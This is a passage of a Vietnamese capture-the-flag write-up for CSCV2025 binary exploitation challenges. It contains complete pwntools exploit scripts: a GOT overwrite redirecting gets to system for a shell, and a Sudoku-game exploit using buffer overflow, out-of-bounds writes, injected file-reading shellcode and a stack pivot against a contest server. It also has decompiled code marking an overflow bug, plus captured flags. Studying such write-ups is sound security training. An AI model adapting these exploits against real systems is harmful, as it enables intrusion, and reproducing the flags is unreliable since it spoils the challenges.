def create():
    p.sendlineafter(b"> ", b"1")

def read(index):
    p.sendlineafter(b"> ", b"2")
    p.sendlineafter(b"Index: ", str(index).encode())
    return p.recvline().strip()

def write(index, data):
    p.sendlineafter(b"> ", b"3")
    p.sendlineafter(b"Index: ", str(index).encode())
    p.sendline(data)

__stack_chk_fail_got = elf.got["__stack_chk_fail"]
gets_got = elf.got["gets"]

create()    # 0
create()    # 1

payload1 = b"A" * 0x20 + p64(0) + p64(0x41) + p64(0x1) + p64(__stack_chk_fail_got + 1)
write(0, payload1)

printf_leak = (u64(read(0x4010).ljust(8,b"\x00"))) << 8 
libc.address = printf_leak - libc.sym["printf"]
log.info(f"printf_leak: {hex(printf_leak)}")
log.info(f"libc_address: {hex(libc.address)}")

system_addr = libc.sym["system"]
log.info(f"system_addr: {hex(system_addr)}")

payload2 = b"/bin/sh\x00" + p64(0) * 4 + p64(0x41) + p64(0x1) + p64(gets_got - 0x10)
write(0, payload2)

# overwrite gets@got -> system 
idx_gets_sub_0x10 = (libc.symbols["setbuf"]) & 0xffffffff # idx: 4 bytes 
write(idx_gets_sub_0x10, p64(system_addr))

write(0, b"") 

p.interactive()
# CSCV2025{313487590c9dbf64bdd49d7e76980965}
```

## pwn/SudokuS



### 0x00 TL;DR

- Dùng bug Buffer Overflow (BOF) để ghi đè `saved_rbp` thành `fake_rbp`.
- Dùng bug Out Of Bound (OOB) để Arbitrary Write.
    - Viết `/flag` vào địa chỉ $X$. (`./flag` nếu chạy ở local)
    - Viết shellcode vào địa chỉ $Y$ nằm trong vùng `rwx` của binary để đọc flag ở địa chỉ $X$.
    - Setup `fake_rbp` để stack pivot làm cho `RIP` trỏ về $Y$.

### 0x01 Overview

Đề bài cho một file binary 64 bit, không bị strip. Các lớp bảo vệ như Canary, PIE đều tắt, RelRO Partial nên có thể ghi đè bảng GOT.

```c
gef➤  checksec
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Đây là một challenge game Sudoku. Yêu cầu nhập tên và in ra Welcome. Mình thấy ngoài việc in ra tên, nó còn in ra một byte rác nào đó.  

```c
➜  public ./sudoshell
=== CSCV2025 - SudoShell ===
1. Start
2. Exit
3. Help
> 1
What's your name? ducdat
Welcome �ducdat

    1 2 3   4 5 6   7 8 9
  +-------+-------+-------+
1 | 5 . 3 | . 7 . | . . . |
2 | 6 . . | 1 9 5 | . . . |
3 | . 9 8 | . . . | . 6 . |
  +-------+-------+-------+
4 | 8 . . | . 6 . | . . 3 |
5 | 4 . . | 8 . 3 | . . 1 |
6 | 7 . . | . 2 . | . . 6 |
  +-------+-------+-------+
7 | . 6 . | . . . | 2 8 . |
8 | . . . | 4 1 9 | . . 5 |
9 | . . . | . 8 . | 7 . 9 |
  +-------+-------+-------+
 
```

Mã giả chương trình như sau 

```c
__int64 start_game()
{
  unsigned __int8 value; // [rsp+Dh] [rbp-23h] BYREF
  unsigned __int8 col; // [rsp+Eh] [rbp-22h] BYREF
  unsigned __int8 row; // [rsp+Fh] [rbp-21h] BYREF
  char input[28]; // [rsp+10h] [rbp-20h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  value = 0;
  printf("What's your name? ");
  v5 = read(0, input, 39u);                     // BUG: BOF
  if ( v5 <= 0 )
  {
    perror("read failed");
    exit(1);
  }
  input[v5] = 0;
  printf("Welcome %s\n", input);
  initBOARD();
  while ( 1 )
  {
    displayBOARD();
    if ( (unsigned __int8)isComplete() )
    {
      puts("Congratulations!");
      return 0;
    }
    printf("> ");
    v5 = __isoc99_scanf("%hhu %hhu %hhu", &row, &col, &value);
    if ( v5 <= 0 )
    {
      perror("scanf failed");
      exit(1);
    }
    if ( !row && !col && !value )
      break;
    if ( (unsigned __int8)canEdit(--row, --col) != 1 || (unsigned __int8)isValid(row, col, value) != 1 )
      puts("Invalid input!");
    else
      BOARD[9 * row + col] = value;
  }
  puts("Bye!");
  return 0;
}
```

Chúng ta được nhập 3 giá trị: `row`, `col` và `value` vào bảng Sudoku. Để kiểm tra ô đó hợp lệ hay không, chương trình sẽ check bởi 2 hàm: 

1. `canEdit()`: ô ở hàng `row`, cột `col` không nằm trong danh sách các ô được đặt giá trị mặc định từ trước. 
2. `isValid()`: kiểm tra giá trị `value` đã tồn tại ở bảng 3x3 và bảng 9x9 hay chưa. 

Nếu vượt qua được 2 hàm check phía trên thì sẽ ghi `value` vào hàng `row` cột `col`. 

Mình nhận ra cho dù có chơi thắng game thì vẫn không có flag hay shell. Từ đó phải đi tìm bug, khai thác bug mới lấy được shell.

### 0x02 Finding the bug

#### Bug #1: Buffer Overflow (BOF)

Chương trình cho nhập 39 byte vào mảng `input[]` 28 byte dẫn tới bug BOF. 

```c
printf("What's your name? ");
v5 = read(0, input, 39u);                     // BUG: BOF
```

#### Bug #2: Out Of Bound (OOB)

Ta thấy 2 hàm check `canEdit()` và `isValid()` không kiểm tra phạm vi của `row` và `col`, dẫn đến bug OOB, vì vậy ta có thể tùy ý ghi giá trị `value` vào vùng nhớ `BOARD[9 * row + col]`.  

### 0x03 Building the payload

Ta đang có privimitive AAW, `BOARD` lại nằm trên ở vùng nhớ bss nên ta hoàn toàn đưa được shellcode lên một vùng nhớ có quyền `rwx`.



Việc tiếp theo là đưa chương trình sau khi kết thúc trỏ về shellcode. Ta sẽ khai thác bug#1 BOF để làm việc này. Do `input[]` chiếm 28 byte, ta chỉ còn viết được 39 - 28 = 11 (bytes), không đủ để overwrite `ret_addr` mà chỉ ghi được `saved_rbp`. Vì vậy, ngoài việc viết shellcode, mình còn phải dùng AAW để setup cho công việc Stack Pivot. 

Memory layout của `BOARD` và `ORIGINAL` như hình vẽ. Ta thấy được các ô nhớ được set giá trị mặc định trong `BOARD` sẽ có giá trị `1` ở `ORIGINAL`. Vậy mình chỉ ghi được các ô có giá trị `0` trong bảng `ORIGINAL`. 



Do vùng ghi shellcode không liên quan gì tới bảng `BOARD`  nên không cần quan tâm tới nó. 

Công thức Stack Pivot để đưa `RIP` về địa chỉ $x$ là: 

- `saved_rbp` = $k$ - 8
- `[k]` = $x$

> $[x] = y$ nghĩa là giá trị tại địa chỉ $x$ là $y$.
Stack Pivot là dùng cặp lệnh `leave` + `ret` để đưa `RIP` về một địa chỉ tùy ý.

Giải thích: Giả sử `saved_rbp` = $x$, sau lệnh `leave`: 

- `RBP` = `[saves_rbp]` = $\[x\]$
- `RSP` = $x$ + 8

Sau lệnh `ret`: 

- `RIP` = `[RSP]` = [$x$ + 8]
- `RSP` = `RSP` + 8 = ($x$ + 8) + 8 = $x$ + 16

Kết hợp cấu trúc bộ nhớ và công thức Stack Pivot, ta sẽ setup như sau: 
- `saved_rbp` = 0x4041d8
- [`saved_rbp` + 8] = 0x404210
- 0x404210: shellcode
- 0x4041b8: `./flag`
- 0x404300: buffer để ghi nội dung flag



### 0x04 Final script

```python
#!/usr/bin/env python3

from pwn import *
import time

elf = ELF('./sudoshell', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=elf)

# p = process(elf.path)
p = remote('pwn3.cscv.vn', 5555)

def GDB():
    gdb.attach(p, gdbscript='''
        # row col val
        # break *0x401BFE
        # b *main+199
        break *0x401CF0
        continue
    ''')

    pause()

# Good Luck Pwning ^^

# GDB()

p.sendlineafter(b"> ", b"1")

wrx_addr = 0x4041e0
payload1 = b"A" * 32 + b"\xd8\x41\x40\00\00"
p.sendafter(b"name? ", payload1)

# (row col val) -> [0x4040e0 + (row-1) * 0x9 + (col-1)] = val

time.sleep(0.1)

p.sendlineafter(b"> ", f"29 5 {str(int(0x10))}")
p.sendlineafter(b"> ", f"29 6 {str(int(0x42))}")
p.sendlineafter(b"> ", f"29 7 {str(int(0x40))}")

# write b"/flag" at 0x4041b8
# local: "/flag" -> "./flag"
flag_path = b"/flag"
F = 1
for i in flag_path:
    log.info(f"{hex(i)}")
    p.sendlineafter(b"> ", f"25 {F} {str(i)}")
    F += 1

flag_addr = 0x4041b8
buffer_addr = 0x404300

# open(flag_addr, O_RDONLY)
# read(fd, buffer_addr, 0x50)
# write(1, buffer_addr, bytes_read)
shellcode1 = asm("""
    push 2
    pop rax
    mov rdi, 0x4041b8
    xor rsi, rsi
    xor rdx, rdx
    syscall        

    mov rdi, rax
    xor rax, rax
    mov rsi, 0x404300
    mov rdx, 0x50
    syscall  

    mov rdx, rax
    xor rax, rax
    inc rax
    xor rdi, rdi
    inc rdi
    mov rsi, 0x404300
    syscall
""")
print(shellcode1)

# write shellcode at 0x404210
K = 8
for i in shellcode1: 
    log.info(f"{hex(i)}")
    if i == b"\00":
        K += 1
        continue
    p.sendlineafter(b"> ", f"34 {K} {str(int(i))}")
    K += 1

# play to finish game
L = 0xa 
for i in range(1, 10): 
    for j in range(1, 10): 
        p.sendlineafter(b"> ", f"{i} {j} {L}")
        L += 1

p.interactive()
# CSCV2025{Y0u_kn0w_h0w_t0_bu1ld_sh4llc03}
```

## pwn/Hanoi Convention



### 0x00 TL;DR

- Một bài pwn liên quan tới Công ước Hà Nội năm 2025. Người chơi sẽ phải trả lời đúng các câu hỏi để tăng điểm và tăng rank.
    - Trả lời đúng: +10 điểm; trả lời sai: -10 điểm.
    - Trả lời đúng 10/10 câu liên tiếp → +1 tiến độ. Nếu tiến độ ≥ hạng → Tăng rank.
- Các chức năng của chương trình:
    - Tạo player
    - Xem thông tin player
    - Sửa thông tin player (Điều kiện để unlock chức năng: rank ≥ 5)
    - Bắt đầu game

### 0x01 Overview

 Mục đích của các giả là muốn người chơi tìm hiểu về Công ước Hà Nội vừa được ký kết qua bộ câu hỏi có sẵn. Các hàm chính của chương trình như sau: 

- `create_new_player()`: tạo người chơi mới
- `view_player_info()`: xem toàn bộ thông tin của người chơi
- `start_quiz_challenge()`: bắt đầu chơi game, nhiệm vụ sẽ là đi chọn đáp án đúng của các câu hỏi.
    - `g_player_score`: điểm của người chơi, trả lời đúng +10, trả lời sai -10 điểm.
    - `g_quizzes_passed_current_rank`: tiến độ hoàn thành bài test. Khi trả lời đúng 10 câu hỏi liên tiếp, tiến độ +1.
    - `g_player_rank`: rank của người chơi. Nếu `g_quizzes_passed_current_rank` ≥ `g_player_rank` thì tăng rank +1 và reset tiến độ về 0.
- `edit_player_name()`: sửa thông tin người chơi, hàm này được unlock khi `rank >= 5`.

 Nhờ ChatGPT, mình đã rename được lại các hàm như sau 

```c
__int64 load_questions_from_json()
{
  size_t bytes_read; // rax
  char *current_question_ptr; // rbx
  int question_index; // [rsp+0h] [rbp-130h]
  int brace_depth; // [rsp+4h] [rbp-12Ch]
  int brace_depth_2; // [rsp+8h] [rbp-128h]
  int option_index; // [rsp+Ch] [rbp-124h]
  char *json_iterator; // [rsp+10h] [rbp-120h]
  const char *obj_start; // [rsp+10h] [rbp-120h]
  char *json_iterator_2; // [rsp+10h] [rbp-120h]
  const char *obj_start_2; // [rsp+10h] [rbp-120h]
  const char *obj_end_iterator; // [rsp+18h] [rbp-118h]
  const char *obj_end_iterator_2; // [rsp+20h] [rbp-110h]
  char *question_key_ptr; // [rsp+28h] [rbp-108h]
  char *question_value_ptr; // [rsp+28h] [rbp-108h]
  char *question_text_start; // [rsp+28h] [rbp-108h]
  size_t question_text_len; // [rsp+30h] [rbp-100h]
  char *options_key_ptr; // [rsp+38h] [rbp-F8h]
  char *options_array_start; // [rsp+38h] [rbp-F8h]
  char *option_text_iterator; // [rsp+38h] [rbp-F8h]
  char *next_option_delimiter; // [rsp+38h] [rbp-F8h]
  size_t option_text_len; // [rsp+40h] [rbp-F0h]
  char *answer_key_ptr; // [rsp+48h] [rbp-E8h]
  char *answer_value_ptr; // [rsp+48h] [rbp-E8h]
  FILE *file_stream; // [rsp+50h] [rbp-E0h]
  void *file_content_buffer; // [rsp+58h] [rbp-D8h]
  char *question_text_end; // [rsp+70h] [rbp-C0h]
  char *option_text_end; // [rsp+78h] [rbp-B8h]
  struct stat file_stat; // [rsp+80h] [rbp-B0h] BYREF
  unsigned __int64 stack_canary; // [rsp+118h] [rbp-18h]

  stack_canary = __readfsqword(0x28u);
  file_stream = fopen("questions.json", "r");
  if ( file_stream )
  {
    stat("questions.json", &file_stat);
    file_content_buffer = malloc(file_stat.st_size + 1);
    if ( file_content_buffer )
    {
      bytes_read = fread(file_content_buffer, 1u, file_stat.st_size, file_stream);
      if ( bytes_read == file_stat.st_size )
      {
        *((_BYTE *)file_content_buffer + file_stat.st_size) = 0;
        fclose(file_stream);
        g_question_count = 0;
        for ( json_iterator = (char *)file_content_buffer;
              *json_iterator
           && (*json_iterator == ' '
            || *json_iterator == '\t'
            || *json_iterator == '\n'
            || *json_iterator == '\r'
            || *json_iterator == '[');
              ++json_iterator )
        {
          ;
        }
        while ( 1 )
        {
          obj_start = strchr(json_iterator, '{');
          if ( !obj_start || !strstr(obj_start, "\"question\"") )
            break;
          obj_end_iterator = obj_start;
          brace_depth = 1;
          while ( brace_depth > 0 && *obj_end_iterator )
          {
            if ( *++obj_end_iterator == '{' )
            {
              ++brace_depth;
            }
            else if ( *obj_end_iterator == '}' )
            {
              --brace_depth;
            }
          }
          if ( brace_depth )
            break;
          ++g_question_count;
          json_iterator = (char *)(obj_end_iterator + 1);
        }
        if ( g_question_count > 0 )
        {
          g_question_bank = malloc(772LL * g_question_count);
          if ( g_question_bank )
          {
            json_iterator_2 = (char *)file_content_buffer;
            question_index = 0;
            while ( *json_iterator_2
                 && (*json_iterator_2 == ' '
                  || *json_iterator_2 == '\t'
                  || *json_iterator_2 == '\n'
                  || *json_iterator_2 == '\r'
                  || *json_iterator_2 == '[') )
              ++json_iterator_2;
            while ( question_index < g_question_count )
            {
              obj_start_2 = strchr(json_iterator_2, 123);
              if ( !obj_start_2 )
                break;
              obj_end_iterator_2 = obj_start_2;
              brace_depth_2 = 1;
              while ( brace_depth_2 > 0 && *obj_end_iterator_2 )
              {
                if ( *++obj_end_iterator_2 == '{' )
                {
                  ++brace_depth_2;
                }
                else if ( *obj_end_iterator_2 == '}' )
                {
                  --brace_depth_2;
                }
              }
              if ( brace_depth_2 > 0 )
                break;
              question_key_ptr = strstr(obj_start_2, "\"question\"");
              if ( question_key_ptr )
              {
                for ( question_value_ptr = strchr(question_key_ptr + 10, 58) + 1;
                      *question_value_ptr && ((*__ctype_b_loc())[*question_value_ptr] & 0x2000) != 0;
                      ++question_value_ptr )
                {
                  ;
                }
                if ( *question_value_ptr == '"' )
                {
                  question_text_start = question_value_ptr + 1;
                  question_text_end = strchr(question_text_start, 34);
                  if ( question_text_end )
                  {
                    question_text_len = question_text_end - question_text_start;
                    if ( (unsigned __int64)(question_text_end - question_text_start) > 0xFF )
                      question_text_len = 255;
                    strncpy((char *)g_question_bank + 772 * question_index, question_text_start, question_text_len);
                    *((_BYTE *)g_question_bank + 772 * question_index + question_text_len) = 0;
                  }
                }
              }
              options_key_ptr = strstr(obj_start_2, "\"options\"");
              if ( options_key_ptr )
              {
                for ( options_array_start = strchr(options_key_ptr + 9, 58) + 1;
                      *options_array_start && ((*__ctype_b_loc())[*options_array_start] & 0x2000) != 0;
                      ++options_array_start )
                {
                  ;
                }
                if ( *options_array_start == '[' )
                {
                  option_text_iterator = options_array_start + 1;
                  for ( option_index = 0; option_index <= 3; ++option_index )
                  {
                    while ( *option_text_iterator && ((*__ctype_b_loc())[*option_text_iterator] & 0x2000) != 0 )
                      ++option_text_iterator;
                    if ( *option_text_iterator != '"' )
                      break;
                    option_text_end = strchr(++option_text_iterator, 34);
                    if ( option_text_end )
                    {
                      option_text_len = option_text_end - option_text_iterator;
                      if ( (unsigned __int64)(option_text_end - option_text_iterator) > 0x7F )
                        option_text_len = 127;
                      strncpy(
                        (char *)g_question_bank + 772 * question_index + 128 * option_index + 256,
                        option_text_iterator,
                        option_text_len);
                      *((_BYTE *)g_question_bank
                      + 772 * question_index
                      + 128 * (__int64)option_index
                      + option_text_len
                      + 256) = 0;
                      next_option_delimiter = strchr(option_text_end + 1, 44);
                      if ( !next_option_delimiter )
                        break;
                      option_text_iterator = next_option_delimiter + 1;
                    }
                  }
                }
              }
              answer_key_ptr = strstr(obj_start_2, "\"correct_option\"");
              if ( answer_key_ptr )
              {
                for ( answer_value_ptr = strchr(answer_key_ptr + 16, 58) + 1;
                      *answer_value_ptr && ((*__ctype_b_loc())[*answer_value_ptr] & 0x2000) != 0;
                      ++answer_value_ptr )
                {
                  ;
                }
                current_question_ptr = (char *)g_question_bank + 772 * question_index;
                *((_DWORD *)current_question_ptr + 192) = atoi(answer_value_ptr);
              }
              json_iterator_2 = (char *)(obj_end_iterator_2 + 1);
              ++question_index;
            }
            free(file_content_buffer);
            return (unsigned int)question_index;
          }
          else
          {
            puts("Error: Memory allocation for questions failed");
            free(file_content_buffer);
            return 0;
          }
        }
        else
        {
          puts("Error: No questions found in JSON file");
          free(file_content_buffer);
          return 0;
        }
      }
      else
      {
        puts("Error: Failed to read the entire file");
        free(file_content_buffer);
        fclose(file_stream);
        return 0;
      }
    }
    else
    {
      puts("Error: Memory allocation failed");
      fclose(file_stream);
      return 0;
    }
  }
  else
  {
    printf("Error: Could not open questions file %s\n", "questions.json");
    return 0;
  }
}
```

```c
unsigned __int64 start_quiz_challenge()
{
  int question_count_limit; // eax
  __int64 correct_answer_count; // [rsp+0h] [rbp-1C0h]
  int question_index; // [rsp+8h] [rbp-1B8h]
  int option_index; // [rsp+Ch] [rbp-1B4h]
  int num_questions_to_ask; // [rsp+10h] [rbp-1B0h]
  ssize_t bytes_read; // [rsp+18h] [rbp-1A8h]
  _DWORD shuffled_question_indices[50]; // [rsp+20h] [rbp-1A0h] BYREF
  char answer_buffer[8]; // [rsp+E8h] [rbp-D8h] BYREF
  char buf[200]; // [rsp+F0h] [rbp-D0h] BYREF
  unsigned __int64 stack_canary; // [rsp+1B8h] [rbp-8h]

  stack_canary = __readfsqword(0x28u);
  if ( g_is_player_created )
  {
    timeout_handler();
    puts("\n=== QUIZ ON THE HANOI CONVENTION ON INFORMATION SECURITY ===");
    printf("Welcome %s to the cybersecurity knowledge quiz.\n", g_player_name);
    puts("Answer the questions correctly to get bonus points and level up!");
    for ( correct_answer_count = 0; SHIDWORD(correct_answer_count) < g_question_count; ++HIDWORD(correct_answer_count) )
      shuffled_question_indices[SHIDWORD(correct_answer_count)] = HIDWORD(correct_answer_count);
    shuffle_array((__int64)shuffled_question_indices, g_question_count);
    question_count_limit = g_question_count;
    if ( g_question_count > 10 )
      question_count_limit = 10;
    num_questions_to_ask = question_count_limit;
    for ( question_index = 0; question_index < num_questions_to_ask; ++question_index )
    {
      printf("\n--- Question %d ---\n", question_index + 1);
      puts((const char *)g_question_bank + 772 * shuffled_question_indices[question_index]);
      for ( option_index = 0; option_index <= 3; ++option_index )
        puts((const char *)g_question_bank + 772 * shuffled_question_indices[question_index] + 128 * option_index + 256);
      printf(dword_55555555792F);
      if ( !fgets(answer_buffer, 8, stdin) )
        return stack_canary - __readfsqword(0x28u);
      if ( atoi(answer_buffer) == *((_DWORD *)g_question_bank + 193 * shuffled_question_indices[question_index] + 192) )
      {
        puts("Correct! You are very knowledgeable about information security.");
        LODWORD(correct_answer_count) = correct_answer_count + 1;
        g_player_score += 10;
      }
      else
      {
        g_player_score -= 10;
        printf("Wrong! You lose 10 points. Remaining: %u\n", g_player_score);
      }
      usleep(0xF4240u);
    }
    puts("\n=== END OF QUIZ ===");
    printf("You answered %d/%d questions correctly.\n", correct_answer_count, num_questions_to_ask);
    printf("Current score: %u\n", g_player_score);
    if ( (int)correct_answer_count < num_questions_to_ask )
    {
      puts("\nYou need to try harder next time to master the rules.");
    }
    else
    {
      puts("\nCONGRATULATIONS! You passed the quiz with an excellent result!");
      ++g_quizzes_passed_current_rank;
      ++g_total_quizzes_passed;
      if ( g_quizzes_passed_current_rank >= g_player_rank )
      {
        g_quizzes_passed_current_rank = 0;
        printf(asc_555555557A38, (unsigned int)++g_player_rank);
      }
      if ( g_player_rank <= 19 || (unsigned int)g_player_score <= 1999 )
      {
        snprintf(
          g_player_activity_log,
          0x40u,
          &byte_555555557B10,
          (unsigned int)g_player_rank,
          (unsigned int)g_player_score,
          (unsigned int)(g_player_rank - g_quizzes_passed_current_rank),
          correct_answer_count);
      }
      else
      {
        puts("\nYou have shown deep understanding and are awarded an honorary certificate!");
        printf("Write your thoughts: ");
        bytes_read = read(0, buf, 224u);        // [BUG] Buffer Overflow
        if ( bytes_read > 0 )
        {
          if ( buf[bytes_read - 1] == 10 )
            buf[bytes_read - 1] = 0;
          else
            buf[bytes_read] = 0;
